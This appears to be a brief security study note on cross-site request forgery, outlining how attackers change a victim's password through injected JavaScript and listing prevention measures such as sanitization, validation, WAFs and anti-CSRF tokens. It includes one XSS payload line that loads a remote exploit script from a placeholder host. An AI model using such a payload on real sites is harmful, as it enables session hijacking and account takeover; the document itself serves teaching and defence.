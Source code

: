 ### TLDR
- **CSRF Overview**: Cross-Site Request Forgery (CSRF) occurs due to unfiltered user input, enabling attackers to perform actions on a web application as an authenticated user, often leveraging XSS vulnerabilities or HTTP parameters.
- **Common Attack Scenario**: Attackers may craft a JavaScript payload to change a victim's password. When the victim views the malicious payload, the JavaScript executes, using the victim's session to alter their password, granting the attacker account control.
- **Targeting Admins**: CSRF attacks can target admins to gain access to sensitive functions, potentially compromising back-end servers.
- **Developing Exploits**: Attackers may use a remote `.js` file (e.g., `exploit.js`) containing malicious JavaScript tailored to the application's API and password-changing procedure.
```html
"><script src=//www.example.com/exploit.js></script>
```



### Prevention
- **Front-End Input Sanitization**: Always filter and sanitize user input on the front end to prevent malicious code from reaching the back end or being directly displayed on the client-side.
- **Two Key Controls**: Validate and sanitize both user input and displayed output to mitigate risks from attacks like HTML Injection, XSS, and CSRF, even if attackers bypass other filters.
- **Web Application Firewalls (WAF)**: A WAF can help block injection attempts automatically but is not foolproof; developers should follow best practices instead of solely relying on WAFs.
- **Anti-CSRF Measures**: Modern browsers and web applications often implement anti-CSRF protections, such as anti-CSRF tokens, `http-only` cookies, and `X-XSS-Protection` headers. Additional functional-level measures, like requiring password input for sensitive actions, can also help.
- **Limitations of Protections**: While these measures reduce the risk, they can still be bypassed, so secure coding practices remain essential.
- **Further Guidance**: Refer to OWASP's [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) for detailed prevention strategies.

| Type | Description |
| --- | --- |
| `Sanitization` | Removing special characters and non-standard characters from user input before displaying it or storing it. |
| `Validation` | Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format) |
